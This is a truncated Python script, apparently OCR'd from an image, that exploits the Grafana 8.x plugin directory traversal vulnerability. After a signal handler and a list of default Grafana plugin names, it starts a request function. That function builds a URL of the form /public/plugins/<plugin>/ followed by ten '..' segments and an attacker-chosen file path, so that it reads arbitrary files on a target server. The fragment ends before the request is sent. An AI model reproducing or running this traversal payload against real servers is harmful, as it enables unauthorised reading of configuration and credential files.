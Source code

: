```python
# Ctrl + c
# (function)
def signal_handler(signum, frame):
	sys.exit('\n[!] User terminated.')

# (signal)
signal.signal(signal.SIGINT, signal_handler)


## Default plugins Grafana (https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/)
plugins = [ 
	"alertlist",
	"annolist",
	"barchart",
	"bargauge",
	"candlestick",
	"cloudwatch",
	"dashlist",
	"elasticsearch",
	"gauge",
	"geomap",
	"gettingstarted",
	"grafana-azure-monitor-datasource",
	"graph",
	"heatmap",
	"histogram",
	"influxdb",
	"jaeger",
	"logs",
	"loki",
	"mssql",
	"mysql",
	"news",
	"nodeGraph",
	"opentsdb",
	"piechart",
	"pluginlist",
	"postgres",
	"prometheus",
	"stackdriver",
	"stat",
	"state-timeline",
	"status-history",
	"table",
	"table-old",
	"tempo",
	"testdata",
	"text",
	"timeseries",
	"welcome",
	"zipkin"
]

## Functions
# make request to grafana
def make_request(args):
	try:
		with Session() as session:

			vulnerable_path = args.target + '/public/plugins/' + choice(plugins) + '/..'*10 + args.file
			
```